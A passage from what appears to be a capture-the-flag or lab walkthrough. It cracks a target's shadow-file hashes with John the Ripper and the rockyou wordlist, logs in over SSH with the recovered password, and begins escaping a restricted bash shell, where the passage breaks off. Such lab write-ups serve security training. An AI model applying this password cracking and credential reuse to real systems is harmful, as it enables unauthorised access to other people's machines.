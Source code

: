 Since we have the `shadow` file, we can crack the hashes.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt shadow 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828)   
```

We have the following credentials

| User                             | Password |
| -------------------------------- | -------- |
| 296640a3b825115a47b68fc44501c828 | server   |

Using these credentials, we can login to the target via SSH.

### SSH login

```
$ ssh 296640a3b825115a47b68fc44501c828@192.168.241.85
296640a3b825115a47b68fc44501c828@192.168.241.85's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  9 13:35:45 2024 from 192.168.45.234
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ 
```

&nbsp;

## Post Exploitation

### Escaping restricted shell

Once we obtain a foothold on the target, we quickly realize that most commands are not allowed.

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat
-rbash: cat: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cd
-rbash: cd: restricted
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /usr/bin/cat local.txt
-rbash: /usr/bin/cat: restricted: cannot specify `/' in command names
```
